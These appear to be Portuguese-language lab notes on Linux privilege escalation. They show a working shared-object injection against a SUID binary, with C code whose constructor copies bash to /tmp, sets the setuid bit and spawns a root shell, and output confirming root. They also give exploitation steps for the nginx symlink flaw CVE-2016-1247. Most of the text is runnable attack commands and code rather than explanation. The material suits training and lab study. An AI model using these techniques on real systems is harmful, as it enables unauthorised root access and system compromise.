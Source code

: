 - Exploração do suid-so

```
strace /usr/local/bin/suid-so 2>&1 | grep -i -E "open|access|no such file"

open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)

ls -la /home/user/.config/
ls: cannot access /home/user/.config/: No such file or directory

nano libcalc.c

# copiar o código C para o libcalc

mkdir /home/user/.config

gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/libcalc.c

/usr/local/bin/suid-so

bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
```

```c
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


## Symlinks

- Exploração executada acontece no nginx juntamente com SUID
- Nginx é servidor http e reverse proxy
- Versão nginx < 1.6.2-5+deb8u3
- CVE-2016-1247
- Symlinks são links ou arquivos que fazem referencias a outros arquivos e diretórios na forma de um path relativo ou absoluto

```
find / -type f -perm -04000 -ls 2>/dev/null

812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
# Requisito para rodar

./nginxed-root.sh /var/log/nginx/error.log

# Fazer outro ssh como root e executar o comando:
invoke-rc.d nginx rotate >/dev/null 2>&1

# No outro ssh, teremos shell como root
```
